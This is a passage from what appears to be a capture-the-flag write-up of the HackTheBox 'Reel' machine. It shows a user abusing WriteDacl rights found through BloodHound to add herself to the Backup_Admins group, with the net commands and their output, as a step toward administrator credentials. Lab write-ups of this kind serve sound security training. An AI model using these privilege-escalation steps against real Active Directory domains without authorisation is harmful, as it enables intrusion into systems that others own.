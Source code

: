 <figure><img src="../../../.gitbook/assets/image (60) (6).png" alt=""><figcaption></figcaption></figure>

### WriteDacl --> Admin Creds

The user `claire` is part of another group.

```
claire@REEL C:\Users\claire>net user  claire                                                 
User name                    claire                                                          
Full Name                    Claire Danes                                                    
Comment                                                                                      
User's comment                                                                               
Country/region code          000 (System Default)                                            
Account active               Yes                                                             
Account expires              Never                                                           

Password last set            6/16/2023 3:16:53 AM                                            
Password expires             Never                                                           
Password changeable          6/17/2023 3:16:53 AM                                            
Password required            Yes                                                             
User may change password     Yes                                                             

Workstations allowed         All                                                             
Logon script                                                                                 
User profile                                                                                 
Home directory                                                                               
Last logon                   6/16/2023 3:18:04 AM                                            

Logon hours allowed          All                                                             

Local Group Memberships      *Hyper-V Administrator                                          
Global Group memberships     *Domain Users         *MegaBank_Users                           
                             *DR_Site              *Restrictions
```

Checking back on the Bloodhound output, we see that `claire` has WriteDacl permissions over the Backup Admins group:

<figure><img src="../../../.gitbook/assets/image (72) (6).png" alt=""><figcaption></figcaption></figure>

This means that the user `claire` can modify the ACLs of the group, which includes adding and removing users.&#x20;

```
claire@REEL C:\Users\claire>net group Backup_Admins claire /add /domain                      
The command completed successfully.

claire@REEL C:\Users\claire>net group Backup_Admins                                          
Group name     Backup_Admins                                                                 
Comment                                                                                      

Members                                                                                      

-------------------------------------------------------------------------------              
claire                   ranj                                                                
The command completed successfully. 
```
